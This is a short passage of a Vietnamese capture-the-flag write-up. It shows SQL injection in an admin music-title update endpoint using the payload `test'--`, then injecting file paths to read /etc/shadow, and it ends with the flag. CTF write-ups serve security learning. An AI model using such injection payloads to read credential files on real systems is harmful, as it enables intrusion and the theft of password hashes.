   

Query thực hiện update title có thể là `UPDATE music SET title='{new_title}' WHERE id={id}`. ID của nhạc ta có thể lấy trên đường dẫn.  
  

Tiếp tục thử với endpoint `/admin/music/{id}/update`, server trả về kết quả lỗi. Với payload `test'--` toàn bộ title bị đổi thành `test`  
  

Ở trên, ta đã biết server hiện tại đang chạy `linux`, ta Inject những đường dẫn phổ biến như `/etc/passwd, /etc/shadow, /etc/hosts,...`. Thử thành công với `/etc/shadow`
  
  

Tìm được flag trong thư mục `/tmp/flag`  
  
**FLAG** CBJS{bc6126af1d45847bc59afa0aa3216b04}  

